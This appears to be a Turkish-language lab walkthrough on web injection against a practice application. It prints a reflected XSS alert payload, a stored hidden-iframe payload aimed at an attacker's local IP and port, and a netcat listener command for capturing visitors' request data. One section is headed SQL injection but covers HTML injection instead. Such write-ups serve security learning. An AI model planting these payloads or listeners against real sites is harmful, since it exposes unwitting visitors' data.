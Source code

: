 SQL İNJECTİON - REFLECTED (GET)

![photo_6023604428080265317](https://user-images.githubusercontent.com/110966683/183882924-70f82c7d-2eda-466c-9db7-4680c145040d.jpeg)

bu panelde html açığı olup olmadığını anlamak için panele html kodu yazıyoruz ben örnek olarak <h1>sait</h1> yazıyorum.

![photo_6025856227893950465_w](https://user-images.githubusercontent.com/110966683/183883997-b8cb1b5b-2198-4612-ac88-f445d160f5e6.jpeg)

gördüğümüz gibi başlık olarak yazdı 

alert scripti deneyelim şimdi ekrana 1 yazdırması lazım

<h1>Hello,<script>alert(1)</script>!</h1>

![photo_6023604428080265318_w](https://user-images.githubusercontent.com/110966683/183884371-f0fefa5a-4830-465d-8f45-8b239cb8ccf7.jpg)

HTML İNJECTİON - STORED (BLOG)
eğer bir stored açığı olursa burda çalıştırdığımız bir kod web sitesine giren herkesi etkiler farklı bilgisayrdan bu web sitesine girseniz bile hackerin çalıştırdığı kod çalışacaktır.
örnek olarak alert scripti çalıştırırsak giren her kullanıcı bu alerti görür
alert scripti: <h1>Hello,<script>alert(1)</script>!</h1>
peki daha teklikeli olarak ne yapılabilir;
<iframe src="http://192.168.245.148:4545/test" height="0"  width="0"></iframe>

bu komut sayesinde siteye giren kullanıcıların bilgileri bilgisayarımıza gelir
dinlemek için linux terminalimizde natcat kullanacağız 
linux natcat komutu: nc -nvlp 4545 dinlemek için 


![photo_6023604428080265325_w](https://user-images.githubusercontent.com/110966683/183884730-c7d1a93e-aefe-488d-938b-738bfcd1d907.jpg)


görüldüğü gibi belirlediğimizportu dinledi ve kullanıcının bilgilerini getirdi.
